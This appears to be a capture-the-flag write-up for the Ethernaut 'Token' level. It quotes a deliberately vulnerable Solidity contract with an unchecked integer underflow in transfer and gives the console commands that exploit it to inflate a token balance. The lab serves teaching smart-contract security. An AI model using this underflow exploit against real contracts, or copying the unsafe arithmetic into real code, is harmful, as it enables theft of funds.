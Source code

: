 # 05 Token

```
The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

  Things that might help:

What is an odometer?
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}


```

#### Start 


### (1) `get  additional tokens`

The hint he tells us about using Overflows




Looking at the code, You can see  the contract uses solidty version 0.6.0 and doesn't use safemath, 
which can cause overflows and underflows

We will use overflows and underflows to attack contract to increase our tokens

how do we do

.

.

.

Try looking for code that uses the + - operation.

.

.

.

You can see that the function `transfer(address _to, uint _value)` uses the + - operation. 

We will attack from 
```
require(balances[msg.sender] - _value >= 0);
balances[msg.sender] -= _value;

```

Let's start with token balances. We have 20. If we want to cause underflow, we need to bring our balances to negative number and underflow will set our token balances to  maximum values of `uint256`. 


We have to pass the variable through the function `transfer(address _to, uint _value)` `_value = 21`  


`balances[msg.sender] - _value >= 0` and `balances[msg.sender] -= _value;` it will be 20 - 21 and cause underflow and will automatically set our balances to the maximum value `uint256`. 

#### Open Developer Tools (F12)

- (1)  type `await contract.transfer('***address anyone***',21)` and confirm transaction

    Then check our token balances type  
    ```
    let t = await contract.balanceOf('***our address***')
    t.toString()
    ```

   you will see a message 
   
   `'115792089237316195423570985008687907853269984665640564039457584007913129639935'` this is maximum values of `uint256`






Click button Submit instance and confirm transaction

# !!! we passed !!!


